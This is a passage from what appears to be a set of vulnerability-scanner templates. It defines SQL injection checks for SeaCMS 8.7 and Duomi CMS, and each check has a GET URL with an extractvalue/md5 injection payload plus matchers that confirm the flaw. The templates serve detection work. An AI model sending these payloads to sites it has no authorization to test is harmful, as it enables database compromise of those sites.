 - SeaCMS 8.7 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - seacms,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/comment/api/index.php?gid=1&page=2&rlist[]=@`%27`,%20extractvalue(1,%20concat_ws(0x20,%200x5c,(select%20md5({{num}})))),@`%27`

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

**Type - status**

- status
  1. 200

---

# Duomi CMS - SQL Injection

## Description

- Duomi CMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - duomicms,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/duomiphp/ajax.php?action=addfav&id=1&uid=1%20and%20extractvalue(1,concat_ws(1,1,md5({{num}})))

### Matchers

**Type - word**
